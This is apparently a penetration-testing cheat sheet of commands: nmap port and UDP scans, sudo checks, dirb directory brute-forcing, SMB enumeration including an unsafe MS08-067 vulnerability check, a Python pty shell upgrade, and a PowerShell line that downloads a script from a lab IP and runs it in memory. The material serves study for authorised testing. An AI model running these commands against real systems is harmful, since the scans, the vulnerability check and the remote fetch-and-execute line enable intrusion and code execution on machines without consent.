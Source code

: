 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- "$target" | tee synscan.txt && sudo nmap -sC -sV "$target" | tee scriptscan.txt && sudo nmap -sU -p- "$target" | tee udpscan.txt

# Sudo
sudo -l

# Dirb
dirb "http://$target" -r -z 10

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 "$target"

# Upgrading Shell
python -c 'import pty; pty.spawn(\"/bin/bash\")'

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Also check out 16.2.3 for base64 executable transfer and execution
